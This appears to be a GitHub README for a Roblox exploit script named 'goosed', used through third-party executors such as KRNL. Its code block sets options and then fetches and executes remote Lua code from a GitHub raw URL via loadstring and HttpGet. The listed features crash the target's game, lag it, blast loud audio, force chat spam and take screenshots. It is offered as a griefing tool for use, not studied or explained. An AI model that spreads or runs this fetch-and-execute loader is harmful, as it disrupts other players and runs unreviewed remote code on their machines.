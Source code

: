 # goosed!!!

this script is best used on auto execute.
# Loadstring

```_G.CrashMinutes = 1 -- changes how long until the game crashes
_G.Disco = false -- changes the changing colors
_G.ChatLol = false -- makes you chat or not
_G.FovChanger = false -- changes your fov
_G.SoundId = "http://www.roblox.com/asset/?id=6817682704" -- set to your sound

loadstring(game:HttpGet('https://raw.githubusercontent.com/gooserblx/youhavebeengoosed/main/realshit'))()
```
# Features

This script can do numerous annoying things! Like..

- Play loud music!
- Crash their roblox!
- Make them say "lol" so fast they can't chat!
- Change their FOV! 
- Lag their game!
- Take tons of screenshots!

# Executors

This script is compatible with ANY executor!!!

Except JJsploit, don't ever use JJSploit just use KRNL instead.

# Credits

Deving stuff: Me

Everything: Me

Coolness: Me!

